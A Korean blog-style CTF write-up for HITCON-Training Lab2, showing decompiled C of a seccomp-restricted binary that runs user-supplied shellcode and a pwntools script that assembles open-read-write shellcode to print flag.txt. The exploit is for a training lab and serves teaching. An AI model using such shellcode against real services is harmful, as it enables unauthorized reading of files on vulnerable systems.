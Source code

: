 ```yaml
---
title: "[HITCON-Training]Lab2"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


local Exploit이라 그냥 flag.txt 만들어주고 했다. seccomp가 걸려있어서 orw밖에 사용하지 못한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

근데 입력받은걸 쉘코드 실행해주니까 open -> read -> write 으로 파일 열면 된다.

```python
from pwn import *
 
e = ELF('./orw.bin')
p = process('./orw.bin')
payload = asm(shellcraft.pushstr("flag.txt"))
payload += asm(shellcraft.open('esp',0,0))
payload += asm(shellcraft.read('eax','esp',100))
payload += asm(shellcraft.write(1,'esp',100))
p.sendlineafter(':',payload)
p.interactive()
```

